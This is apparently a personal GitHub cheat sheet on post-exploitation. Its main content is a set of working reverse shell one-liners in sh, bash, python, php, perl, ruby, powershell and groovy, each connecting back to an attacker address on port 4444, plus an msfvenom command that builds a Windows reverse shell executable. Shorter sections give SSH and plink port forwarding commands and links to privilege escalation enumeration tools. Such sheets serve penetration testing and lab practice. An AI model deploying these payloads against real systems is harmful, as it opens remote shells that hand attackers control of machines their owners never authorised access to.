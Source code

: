 # Post-exploitation
Tools and techniques I use for post-exploitation:
- [Reverse Shell](#reverse-shell)
  - [sh](#sh)
  - [bash](#bash)
  - [python](#python)
  - [php](#php)
  - [perl](#perl)
  - [ruby](#ruby)
  - [powershell](#powershell)
  - [groovy](#groovy)
  - [CMD shell](#cmd-shell)
- [Port Forwarding](#port-forwarding)
- [Linux](#linux)
  - [Enumeration](#enumeration-on-linux)
  - [Privilege Escalation](#)
- [Windows](#windows)
  - [Enumeration](#enumeration-on-windows)
  - [Privilege Escalation](#)

----

## Reverse Shell

### sh
Works on Linux and FreeBSD.
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.123 4444 >/tmp/f
```

### bash
```bash
bash -i >& /dev/tcp/10.10.10.123/4444 0>&1
``` 

### python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.10.123",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### php
```php
# One liner
php -r '$sock=fsockopen("10.10.10.123",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

# Reverse shell in file
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.10.123/4444 0>&1'");
```

### perl
```perl
perl -e 'use Socket;$i="10.10.10.123";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### ruby
```ruby
ruby -rsocket -e'f=TCPSocket.open("10.10.10.123",4444).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### powershell
```powershell
# Create a powershell script with the name reverse.ps1
function reverse_powershell {
    $client = New-Object System.Net.Sockets.TCPClient("10.10.10.123",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
}

# Execute reverse shell
powershell -ExecutionPolicy bypass -command "Import-Module reverse.ps1; reverse_powershell"
```

### groovy
```groovy
String host="10.10.10.123";
int port=4444;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

### CMD Shell
```bash
msfvenom -p windows/x64/shell_reverse_tcp  LHOST=10.10.10.123 LPORT=4444 -f exe > shell.exe
```

----

## Port Forwarding
In some cases, a root process is bound to an internal port, with which it communicates.  
If for some reason, an exploit can't run locally on the target machine, the port can be forwarded using SSH/plink.exe to your local machine.  
The exploit code can then be run on your local machine at whichever port you chose.  

### On linux
```bash
ssh -R <local-port>:127.0.0.1:<target-port> <username>@<local-machine>
```

### On windows
```powershell
plink.exe <user>@<kali> -R <kali-port>:<target-IP>:<target-port>
```

### Other tools for port forwarding
- [Chisel](https://github.com/jpillora/chisel)

----

## Linux
**work in progress**

### Enumeration on linux
Automated enumeration tools:
- [linPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
- [LinEnum](https://github.com/rebootuser/LinEnum)
- [Linux smart enumeration](https://github.com/diego-treitos/linux-smart-enumeration)

Useful links:
- [Enumeration Checklist](https://book.hacktricks.xyz/linux-unix/linux-privilege-escalation-checklist)

----

## Windows
**work in progress**

### Enumeration on windows
Automated enumeration tools:
- [winPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS)
- [Seatbelt](https://github.com/GhostPack/Seatbelt)
- [SharpUp](https://github.com/GhostPack/SharpUp)
